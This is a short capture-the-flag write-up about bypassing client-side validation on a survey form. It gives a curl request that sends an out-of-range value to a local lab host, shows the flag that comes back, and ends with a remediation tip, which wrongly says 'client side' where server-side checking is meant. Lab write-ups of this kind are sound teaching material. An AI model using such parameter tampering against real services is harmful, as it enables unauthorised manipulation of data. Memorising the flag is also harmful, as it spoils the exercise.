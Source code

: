 # Form_Validation

_/index.php?page=survey_

#### Un formdata est envoyé avec une value entre 1 et 10
```
If we send an API requests directly with CURL or Postman and modify the value
by something greater than 10, we get the flag
```

````curl --location 'http://192.168.1.27/index.php?page=survey' --form 'sujet="4"' --form 'valeur="11"'````

#### We get the flag
```
<h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2>
```

## Good behavior
```
Always validate values from client side before saving it in database or using it in any way
```